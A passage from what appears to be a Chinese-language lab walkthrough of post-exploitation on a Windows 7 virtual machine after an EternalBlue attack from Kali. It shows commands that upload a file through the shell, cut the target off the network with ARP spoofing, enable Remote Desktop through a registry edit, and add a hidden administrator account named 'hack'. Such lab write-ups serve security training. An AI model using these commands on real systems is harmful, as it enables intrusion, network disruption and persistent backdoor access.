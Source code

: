 ```
shell
```

![image-20241207185726507](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071857532.png)

即可以看到，永恒之蓝攻击成功

#### 利用漏洞进行操作

**从kali上传图片到靶机**

```
upload /home/kali/Desktop/1.jpg c:\\
```

![image-20241207185914088](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071859115.png)

结果如下图所示，可以看到已经上传到windows7的系统中

![image-20241207190034335](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071900372.png)

**利用ARP攻击靶机使其断网**

```
sudo arpspoof -i etho -t 192.168.226.129 192.168.226.2
```

![image-20241207190419703](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071904731.png)

结果如下图所示，可以看到红框所在网络已经断连

![image-20241207190349321](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071903361.png)

#### 远程桌面登录

在上面kali已经进入windows7的shell的基础上，开启3389远程桌面端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

查看端口是否开启

```
netstat -an
```

![image-20241207190836998](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071908057.png)

创建新用户，并为其添加管理员权限

```
net user hack 123123 /add
net localgroup administrators hack /add
```

![image-20241207190950244](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071909271.png)
